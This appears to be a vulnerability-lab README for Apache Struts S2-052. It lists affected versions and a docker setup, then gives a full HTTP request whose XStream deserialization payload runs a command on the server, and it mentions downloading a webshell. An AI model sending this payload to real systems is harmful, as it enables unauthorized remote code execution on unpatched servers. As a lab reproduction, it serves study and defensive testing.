

# S2-052 Remote Code Execution Vulnerablity

[中文版本(Chinese version)](README.zh-cn.md)

Affected Version: Struts 2.1.2 - Struts 2.3.33, Struts 2.5 - Struts 2.5.12

Details:

 - http://struts.apache.org/docs/s2-052.html
 - https://yq.aliyun.com/articles/197926

## Setup

```
docker-compose up -d
```

## Exploit

After launching the environment, visit `http://your-ip:8080/orders.xhtml` to see the showcase page. We need modify the `orders.xhtml` to `order.xml` or modify the `Content-Type` header to `application/xml` to pass the XML data in the body.

So, the package is:

```
POST /orders/3/edit HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/xml
Content-Length: 2415

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
        <dataHandler>
          <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
            <is class="javax.crypto.CipherInputStream">
              <cipher class="javax.crypto.NullCipher">
                <initialized>false</initialized>
                <opmode>0</opmode>
                <serviceIterator class="javax.imageio.spi.FilterIterator">
                  <iter class="javax.imageio.spi.FilterIterator">
                    <iter class="java.util.Collections$EmptyIterator"/>
                    <next class="java.lang.ProcessBuilder">
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
                      <redirectErrorStream>false</redirectErrorStream>
                    </next>
                  </iter>
                  <filter class="javax.imageio.ImageIO$ContainsFilter">
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>foo</name>
                  </filter>
                  <next class="string">foo</next>
                </serviceIterator>
                <lock/>
              </cipher>
              <input class="java.lang.ProcessBuilder$NullInputStream"/>
              <ibuffer></ibuffer>
              <done>false</done>
              <ostart>0</ostart>
              <ofinish>0</ofinish>
              <closed>false</closed>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
  </entry>
  <entry>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
  </entry>
</map>
```

If the packet is executed, the file `/tmp/success` will be created in the docker container. We execute `docker-compose exec struts2 ls /tmp/`, and we can see `success`.

In addition, we can also download a jspx webshell:


